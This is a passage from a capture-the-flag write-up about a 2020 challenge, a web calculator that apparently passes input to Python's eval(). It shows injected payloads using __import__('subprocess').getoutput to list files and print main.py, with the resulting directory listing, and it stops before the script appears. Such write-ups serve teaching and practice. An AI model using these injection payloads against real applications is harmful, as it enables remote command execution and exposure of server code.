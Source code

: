 ![The page looks exactly the same as the initial shot, except with "1-1" inside the text field.](/img/ductf-2020/addition-zero.png)

But after doing more research into the `eval()` function in Python - which was most likely doing this calculation work, we realised that it could probably be used to run some shellcode (ish). So we decided to use the `subprocess` module, which allows you to run shell code in Python.
```python
__import__('subprocess').getoutput('ls')
```

Then gave us this:
```sh
__pycache__ main.py prestart.sh templates test.txt
```

Then, printing out `main.py` via 
```python
__import__('subprocess').getoutput('cat main.py')
```

Printed out the whole script: 